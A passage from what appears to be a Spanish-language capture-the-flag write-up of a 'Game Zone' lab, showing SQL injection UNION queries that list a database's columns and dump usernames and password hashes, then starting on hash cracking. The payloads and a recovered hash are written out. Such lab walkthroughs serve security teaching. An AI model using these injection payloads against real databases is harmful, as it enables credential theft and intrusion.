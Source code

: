 Ahora sacamos la informacion de las columnas de cada tabla con la siguiente consulta.

![image.png](/assets/images/write-up-game-zone/image%2017.png)

- Respuesta de la consulta `'UNION SELECT NULL,TABLE_NAME, COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='db'#`

Ahora vemos que hay una que puede contener contraseñas para lo cual hacemos la siguiente consulta para ver el contenido.

![image.png](/assets/images/write-up-game-zone/image%2018.png)

- Respuesta de la consulta `'UNION SELECT 1, username, pwd FROM users#`
- ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

Ahora para crakear el hash primero lo ponemos en un archivo txt para luego usar la siguiente herramienta con el siguiente comando para ver que clase de hash tiene.

![image.png](/assets/images/write-up-game-zone/image%2019.png)
